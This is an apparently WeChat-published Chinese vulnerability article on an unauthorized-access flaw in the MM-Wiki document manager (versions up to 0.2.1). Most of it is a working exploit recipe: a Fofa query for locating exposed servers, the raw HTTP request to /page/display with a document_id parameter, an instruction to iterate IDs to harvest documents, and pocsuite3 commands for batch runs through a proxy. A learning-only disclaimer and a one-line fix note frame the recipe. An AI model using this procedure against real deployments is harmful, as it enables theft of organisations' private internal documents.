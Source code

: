 #  MM-Wiki 文档管理器未授权访问漏洞（附POC）   
原创 BeiZhe  SheYin   2024-04-27 09:00  
  
**免责声明：**  
本公众号的技术文章来仅供参考，如需转载，请联系公众号。  
  
未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作，  
如因此产生的一切不良后果与文章作者和本公众号无关。  
本文所提供的工具仅用于学习。  
  
**关注公众号回复**  
**edusrc**  
**获**  
**取邀请码**  
  
0x01 前言  
  
  
MM-Wiki 是一个轻量级的企业知识分享与团队协同软件，可用于快速构建企业 Wiki 和团队知识分享平台。部署方便，使用简单，帮助团队构建一个信息共享、文档管理的协作环境。系统存在未授权访问漏洞，攻击者可以未授权获取文档信息。  
  
  
  
  
  
  
  
  
  
  
0x02 影响平台  
```
MM-Wiki <=0.2.1
```  
  
0x03 漏洞复现  
```
Fofa: header="mmwikissid"
```  
  
首页  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fMIPoqZAkaR2xJ7BibAh8qEswvarnD3vRaz7Sr1qrvxzSia3tDAoOdeibfnZhEQD6ARhZfQZ5ajZHu6wuoicX4o1UQ/640?wx_fmt=png&from=appmsg "")  
  
构造payload，发送数据包  
```
GET /page/display?document_id=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close


```  
  
遍历document_id获取文档  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fMIPoqZAkaR2xJ7BibAh8qEswvarnD3vRE0Lsd2NA5ESfgXCwNWovYbQOCzph6ytjvic6kO296JqpQicZjCYyahkw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fMIPoqZAkaR2xJ7BibAh8qEswvarnD3vRb7U9EemAxyA3RMMH5x4WkFL0sXGGmjDsP9vib9JJ5WI8u72CIomHYXw/640?wx_fmt=png&from=appmsg "")  
  
0x04 修复建议  
```
关注厂商更新产品：
https://github.com/phachon/mm-wiki
```  
  
0x05 参考链接  
```
https://github.com/phachon/mm-wiki
```  
  
  
关注公众号回复**mm-wiki-wsq**  
获取Pocsuite框架POC  
  
使用方法：pocsuite -r mm-wiki-wsq.py -u [url]  
```
pocsuite3安装(python3环境)
pip3 install pocsuite3
设置代理
pocsuite -r POC.py -u [url] --proxy http://IP:PORT
批量验证
pocsuite -r POC.py -f [file.txt]
```  
  
  
